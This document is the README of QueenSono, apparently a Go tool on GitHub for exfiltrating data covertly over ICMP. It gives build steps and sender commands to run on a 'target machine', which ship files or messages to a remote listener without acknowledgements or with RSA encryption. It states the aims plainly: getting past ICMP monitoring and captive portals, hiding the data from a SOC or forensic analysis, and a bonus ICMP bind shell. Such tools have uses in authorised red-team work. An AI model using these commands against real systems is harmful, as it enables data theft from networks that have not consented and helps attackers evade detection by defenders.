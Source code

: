 <h1 align="center">QueenSono <i> ICMP Data Exfiltration </i></h1>

<h4 align="center"> A Golang Package for Data Exfiltration with ICMP protocol. </h4>
<p align="center">
  QueenSono tool only relies on the fact that ICMP protocol isn't monitored. It is quite common. It could also been used within a system with basic ICMP inspection (ie. frequency and content length watcher) or to bypass authentication step with captive portal (used by many public Wi-Fi to authenticate users after connecting to the Wi-Fi e.g Airport Wi-Fi). Try to imitate <a href="https://github.com/ytisf/PyExfil">PyExfil</a> (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be useful)
  <br><br>
  <strong>
    <a href="https://github.com/ariary/QueenSono#install">Install it</a>
    ·
    <a href="https://github.com/ariary/QueenSono#usage">Use it</a>
    ·
    <a href="https://github.com/ariary/QueenSono#notes">Notes</a>
    ·
    <a href="https://github.com/ariary/QueenSono/issues">Request Feature</a>
    ·
    <a href="https://github.com/ariary/QueenSono/tree/main/hack">🎁</a>
  </strong>
</p>

## Install
 *\> Install the binary from source*
 
Clone the repo and download the dependencies locally:
```    
git clone https://github.com/ariary/QueenSono.git
make before.build
```

 To build the ICMP packet sender `qssender` :

     build.queensono-sender
    

 To build the ICMP packet receiver `qsreceiver` :

     build.queensono-receiver

## Usage

`qssender` is the binary which will send ICMP packet  to the listener , so it is the binary you have to transfer on your target machine. 

`qsreceiver` is the listener on your local machine (or wherever you could receive icmp packet)

All commands and flags of the binaries could be found using `--help`

### Example 1: Send with "ACK" 🔙
*\> In this example we want to send a big file and look after echo reply to ackowledge the reception of the packets (ACK).*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 -p -f received_bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-l 0.0.0.0</code>listen on all interfaces for ICMP packet
    </li>
    <li>
      <code>-f received_bible.txt</code> save received data in a file
    </li>
    <li><code>-p</code> show a progress bar of received data </li>

</details>


On target machine:

    $ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt #download a huge file (for the example)
    $ qssender send file -d 2 -l 127.0.0.1 -r 10.0.0.92 -s 50000 bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>send file</code> for sending file (<code>bible.txt</code> is the file in question)
    </li>
    <li>
      <code>-d 2</code> send a packet each 2 seconds
    </li>
    <li><code>-l 127.0.0.1</code> the listening address for <i>echo reply</i> </li>
    <li><code>-r 10.0.0.92</code> the address of my remote machine with <code>qsreceiver</code> listening</li>
    <li><code>-s 50000</code> the data size I want to send in each packet</li>
</details>


### Example 2: Send without "ACK" 🙈
*\> In this example we want to send a message without waiting for echo reply (it could be useful in  case the target firewall filters incoming icmp packet)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-trunc.gif?raw=true)


On local machine:

    $ qsreceiver receive truncated 1 -l 0.0.0.0
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>receive truncated 1</code> does not wait indefinitely if we don't received all the packets. (<code>1</code> is the delay used with <code>qssender</code>)</li>
</details>


On target machine:

    $ qssender send "thisisatest i want to send a string w/o waiting for the echo reply" -d 1 -l 127.0.0.1 -r 10.0.0.190 -s 1 -N
<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-N</code> noreply option (don't wait for <i>echo reply</i>)
    </li>
</details>


### Example 3: Send encrypted data 🔒
*\> In this example we want to send an encrypted message. As the command line could be spied on we use asymmetric encryption (if the key leaks, it isn't an issue so)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-encryption.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 --encrypt 
    <OUTPUT PUBLIC KEY>
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>--encrypt </code> use encryption exchange. It will generate public/private key. The public one will be used by <code>qssender</code> to encrypt data, the private one is used to decrypt it with <code>receiver</code>
</details>


On target machine:
```
$export MSF="<your message>"
export KEY="<public_key_from_qsreceiver_output>>"
$ qssender send $MSG -d 1 -l 127.0.0.1 -r 10.0.0.190 -s 5 --key $KEY
```

<details>
  <summary>Explanation</summary>
    <li>
    <code>--key </code> provide key for data encryption. Use the one provided by the <code>qsreceiver</code> command
    </li>
</details>

#### About encryption
RSA encrytion is used to keep data exchanged confidential. It could be useful for example to avoid a SoC to see what data is exchanged (or forensic) w/ basic analysis or simply for privacy.

But it comes with a cost. The choice of asymetric encryption is motivated by the fact that the encryption key is entered on the command line (so it could be retieved easily). Hence, we encrypt data with public key. Like this if someone retrieve the encryption key it will not be possible to decrypt the message. But the public key is smaller than the private one, so it ***encrypt smaller messages***. Also, ***it is computationally expensive***.

Another point, as we want to limit data size/ping requests (to avoid detection, bug, etc), **use encryption only if needed** ***as the message output-size will (should) always equal the size of the Modulus*** (part of the key) which is big.

##### Enhancement
Currently, the whole message is encrypted and then chunked to be sent. On the other side we wait for all the packet (chunks), reconstruct our message and then decrypt it.
But it works ⇔ we have received ALL the chunks, otherwise the decryption will fail.


=> We  could encrypt each chunk accordingly with the `-s` parameter, like this we could decrypt them separately.


### Bonus

See [hack](https://github.com/ariary/QueenSono/tree/main/hack) section for fun things with `QueenSono` (eg. a bind shell using ICMP)

### Notes
- only work on Linux  (due to the use of golang net icmp package)
- need `cap_net_raw capabilities`
